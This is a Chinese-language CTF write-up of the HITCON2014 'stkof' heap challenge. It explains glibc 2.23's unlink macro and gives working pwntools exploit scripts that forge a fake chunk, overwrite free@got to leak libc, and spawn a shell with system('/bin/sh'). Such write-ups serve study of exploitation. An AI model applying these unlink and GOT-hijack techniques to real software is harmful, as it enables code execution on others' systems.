# HITCON2014 stkof -温故知新unlink

这题是HITCON2014中一道高分题，放到今天来看也就是考察普通的unlink利用。既然重新做了，就好好的写一下，省的以后再返工。废话不多说，具体来看一下。

## 0x01 题目信息

64位程序，开了NX和canary。



程序提供了四个功能：

1. create功能： malloc任意大小的chunk，并保存malloc返回的指针在bss的data[++malloc_times]数组中。注意：chunk1保存在data[1]。
2. input功能：获取chunk number和size，向data[number]的chunk写size长度的数据，堆溢出！
3. delete功能：获取chunk number，调用free函数，并清空data[number]。
4. sub_400BA9函数：似乎是一个没有写完的函数，调用puts输出了一些东西，没用到。










## 0x02 unlink

### unlink 实现

glibc-2.23中unlink宏的实现：

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \   
    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      \ //size   
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
    FD = P->fd;								      \                                               
    BK = P->bk;								      \                                               
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \ 		// FD BK         
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;							      \			 // arbitray write here！
        if (!in_smallbin_range (P->size)				      \ 
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      \  // todo again
	    if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
		|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
	      malloc_printerr (check_action,				      \
			       "corrupted double-linked list (not small)",    \
			       P, AV);					      \
            if (FD->fd_nextsize == NULL) {				      \
                if (P->fd_nextsize == P)				      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;		      \
                else {							      \
                    FD->fd_nextsize = P->fd_nextsize;			      \
                    FD->bk_nextsize = P->bk_nextsize;			      \
                    P->fd_nextsize->bk_nextsize = FD;			      \
                    P->bk_nextsize->fd_nextsize = FD;			      \
                  }							      \
              } else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
          }								      \
      }									      \
}
```

unlink设计的理由个人理解是：free当前chunk时，发现当前chunk相邻的（前面或者后面的）chunk处于free状态，因此可以将两个chunk合并。但是由于相邻的chunk已经是free的，该chunk的FD和BK指向了所在bins中的前后chunk，因此需要将该chunk解链（unlink），之后和当前正在free的chunk合并。

### unlink attack的条件

在glibc-2.23 x64位程序中要实现free时unlink attack的一个条件如下（别的场景下也可以实现unlink，如realloc）：

- 可以malloc size>0x80的chunk，chunk地址假设为ptr
- 该chunk的PREV_SIZE和PREV_INUSE可以被修改（通常是前面chunk的堆溢出，或者极限一点off-by-one）
- 在ptr-PREV_SIZE伪造一个大小是PREV_SIZE的fake chunk ，地址假设为fake_chunk_ptr（PREV_SIZE伪造时，要看内存中有什么指针）
- 内存中有fake_chunk_ptr指针，伪造fake chunk的FD=&fake_chunk_ptr-0x18，BK=&fake_chunk_ptr-0x10

unlink最终实现的效果是，内存中的fake_chunk_ptr指针被修改为fake_chunk_ptr-0x18，通常此时可以实现指针的修改，从而实现arbitrary write！

### unlink attack举例

以本题为例，malloc的size没有限制，并且存在堆溢出。那么构造一个如下的堆布局：chunk2大小是0x31，chunk3大小是0x91。程序bss中有保存malloc chunk的地址，如chunk2的地址是0x0e06840。



unlink**最重要的是在内存中找到fake_chunk_p**，这里是0xe06840，fake_chunk_p的地址为0x602150。

1. 计算fake_chunk_p和chunk3的offset为0x20，因此在fake_chunk_p处构造一个size为0x21的chunk。
2. fake_fd = fake_chunk_p-0x18 ,fake_bk = fake_chunk_p-0x10
3. 溢出chunk3的PREV_SIZE为offset，溢出chunk3的PREV_INUSE。

构造好的堆布局如下：


因此unlink发生时，结合unlink宏的源码，可以bypass最重要的校验，同时在unlink时修改fake_chunk_p：

```c
FD->bk =  *(fake_fd+0x18) == fake_chunk_p
BK->fd = *(fake_bk+0x10) == fake_chunk_p
...
FD->bk = BK;  *(fake_chunk_p-0x18+0x18)  = fake_chunk_p-0x10
BK->fd = FD;  *(fake_chunk_p-0x10+0x10)  = fake_chunk_p-0x18
// 最终实现 *(fake_chunk_p)  = fake_chunk_p-0x18
```



## 0x03 exploit

unlink的实现原理搞清楚了，本题的利用思路也就很清楚了。

1. 由于本题没有调用setbuf，因此gets和printf第一次调用时会申请chunk，因此malloc第一个0x400的chunk1来调用gets和printf，先申请好他们的chunk，不影响我们后续的堆布局。chunk1的地址保存在bss段data[1]中。
2. malloc 0x20和0x80的chunk2和chunk3，修改chunk2内容，伪造fake_chunk 并溢出chunk3的PREV_SIZE和PREV_INUSE，free chunk3来unlink fake_chunk，实现修改data[2]，劫持了chunk2的指针为fake_chunk-0x18，也就是data[-1]的位置。
3. 修改chunk2，实现对bss段data[]内容的修改，就劫持了chunk 1 2 3 的指针。由于要泄漏libc，修改chunk2时修改data[1]为free@got，继续修改chunk1时，就可以 修改free@got的内容，劫持free函数。由于要泄漏libc，因此劫持free@got为puts@plt。
4. 同理，劫持free@got为system地址，getshell。见exp.py。
5. 由于可以调用puts函数，因此libc也可以用pwntools的DynELF来得到，就不需要libc binary了，见exp2.py。

### exp.py

```python
def pwn(io):
    log.info("[1] create 1 2(malloc 0x20) 3(malloc 0x80) chunks")
    # binary don't have setbuf , heap looks like : gets's chunk, first user malloc chunk, printf's chunk
    create(0x400) # 1 first chunk in data[] number is 1 ;because ++malloc_times
    # gdb.attach(io,'break *0x400C85') # 0x0000000000400C85 atoi in main
    
    create(0x20) # 2  store fake chunk here
    # create smallbins 
    create(0x80) # 3
    # create(0x10) # 4 after unlink, don't merge with top chunks

    log.info("[2] arrange fake 0x21 chunk and fd bk in chunk2 & overflow 3's PREV_SIZE and PREV_INUSE")
    fake_unlink_p = 0x602150
    fd = fake_unlink_p-0x18
    bk = fake_unlink_p-0x10
    payload1_overflow = p64(0) + p64(0x21) + p64(fd) + p64(bk)+ p64(0x20) + p64(0x90) # overflow chunk3 PREV_INUSE , set to 0x90
    input(2,len(payload1_overflow),payload1_overflow)
    delete(3) # unlink chunk2 *(fake_unlink_p) = fd, change the global ptr data[2]@0x602150's content to FD (fake_unlink_p-0x18)!
    log.success("unlink success! we can arbitrary write now!")

    log.info("[3] write puts@plt into free@got and call puts(puts@got)")
    #                                                 1               2                3               4 
    payload2_globalptr = p64(0) + p64(0) + p64(elf.got['free']) + p64(fd) + p64(elf.got['puts']) + p64(0x400DEC) # //TODO
    input(2, len(payload2_globalptr), payload2_globalptr)
    input(1, 8, p64(elf.plt['puts']))
    delete(4) # puts("//TODO")
    delete(3) # puts(puts@got)

    io.recvuntil("//TODO\nOK\n")
    libc.address = u64(io.recv(6)+"\x00\x00") - libc.symbols['_IO_puts']
    log.success("glibc address base @ 0x%x",libc.address )

    log.info("[4] write &system into free@got and call system(\"/bin/sh\")")
    payload3_globalptr = p64(0) + p64(0) + p64(elf.got['free']) + p64(fd) + p64(fake_unlink_p+0x10) + "/bin/sh\x00"
    input(2, len(payload3_globalptr), payload3_globalptr)
    input(1, 8, p64(libc.symbols['system']))
    delete(3) # system("/bin/sh")
```



### Diff exp2.py exp.py

```python
def leak(address):
    payload = p64(0) + p64(0) + p64(address)
    input(2, len(payload), payload)
    delete(1) # puts(address)

    io.recvuntil("OK\n")
    # raw_input("recv")
    data = io.recv()
    data = data.split("\nOK\n")[0] # this data is not belong to this address

    if data=="":
        data =  "\x00"
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data   


def pwn(io):
    [...]

    log.info("[3] write puts@plt into free@got")
    #                                                 1               2                3               4 
    payload2_globalptr = p64(0) + p64(0) + p64(elf.got['free']) + p64(fd) + p64(0x400DEC) # //TODO
    input(2, len(payload2_globalptr), payload2_globalptr)
    input(1, 8, p64(elf.plt['puts']))

    io.recv()
    log.info("[4] leak system address...")
    # leak(elf.got['free'])
    # leak(0x400000)
    d = DynELF(leak, elf.address, elf)
    system_addr = d.lookup('system', 'libc') # must have  'libc'
    log.success("system addr: %#x" % system_addr)

```




---

PS1：IDA7.0 F5伪代码中将bss上保存malloc地址的变量识别为`::s`，很容易和栈上的变量s搞混，一开始还以为是同一个变量，最好修改个名字中，这里修改为data。

PS2：如果unlink时，chunk3后是top chunk，chunk2 chunk3会和top chunk合并。



如果chunk3后不是top chunk，那么chunk2和chunk3会合并，同时fd和bk会指向main_arena+88，就是&main_arena->top。




